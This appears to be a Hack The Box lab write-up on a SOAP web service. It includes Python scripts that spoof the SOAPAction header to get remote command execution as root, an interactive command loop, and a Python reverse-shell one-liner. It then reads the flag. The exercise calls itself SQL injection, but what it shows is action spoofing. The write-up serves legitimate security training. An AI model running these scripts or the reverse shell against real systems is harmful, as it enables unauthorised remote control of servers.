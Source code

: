 ```yaml
---
sticker: emoji//1f480
---
```

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

![](Pasted image 20250219173246.png)

Let's check it out:

![](Pasted image 20250219173341.png)

We get this code:

```xml
<wsdl:definitions targetNamespace="http://tempuri.org/">
<wsdl:types>
<s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
<s:element name="LoginRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
<s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="LoginResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
</s:schema>
</wsdl:types>
<!-- Login Messages -->
<wsdl:message name="LoginSoapIn">
<wsdl:part name="parameters" element="tns:LoginRequest"/>
</wsdl:message>
<wsdl:message name="LoginSoapOut">
<wsdl:part name="parameters" element="tns:LoginResponse"/>
</wsdl:message>
<!-- ExecuteCommand Messages -->
<wsdl:message name="ExecuteCommandSoapIn">
<wsdl:part name="parameters" element="tns:ExecuteCommandRequest"/>
</wsdl:message>
<wsdl:message name="ExecuteCommandSoapOut">
<wsdl:part name="parameters" element="tns:ExecuteCommandResponse"/>
</wsdl:message>
<wsdl:portType name="HacktheBoxSoapPort">
<!-- Login Operaion | PORT -->
<wsdl:operation name="Login">
<wsdl:input message="tns:LoginSoapIn"/>
<wsdl:output message="tns:LoginSoapOut"/>
</wsdl:operation>
<!-- ExecuteCommand Operation | PORT -->
<wsdl:operation name="ExecuteCommand">
<wsdl:input message="tns:ExecuteCommandSoapIn"/>
<wsdl:output message="tns:ExecuteCommandSoapOut"/>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="HacktheboxServiceSoapBinding" type="tns:HacktheBoxSoapPort">
<soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
<!-- SOAP Login Action -->
<wsdl:operation name="Login">
<soap:operation soapAction="Login" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
<!-- SOAP ExecuteCommand Action -->
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="HacktheboxService">
<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
<soap:address location="http://localhost:80/wsdl"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```

If we check the code, we can find the following:

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We got an `executeCommand` element which uses a `cmd`, let's try using this `client.py` script to issue the requests:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

If we execute it:

```
python3 client.py                               
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning `This function is only allowed in internal networks`. We have no access to the internal networks. We need to spoof, let's do it using this python script, let's name if `SOAPSpoof.py`:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

We get the following output:

```
ython3 SOAPSpoof.py 
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>
```

Now, the `whoami` command we specified in the script worked, as seen, the server responds with `root`, we can automate the process with this script:

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.27.149:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```


We can stabilize and use netcat once we get the shell using:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![](Pasted image 20250219174430.png)

And we get a better shell, let's look around for the flag:

![](Pasted image 20250219175030.png)

We can see an `app.js` file, if we grep it for the flag, this happens:

```
root@nix01-websvc:/app/soap-wsdl# cat app.js | grep FLAG
  'FLAG{1337_SQL_INJECTION_IS_FUN_:)}'
```

We got our flag:

```
FLAG{1337_SQL_INJECTION_IS_FUN_:)}
```

![](Pasted image 20250219175123.png)

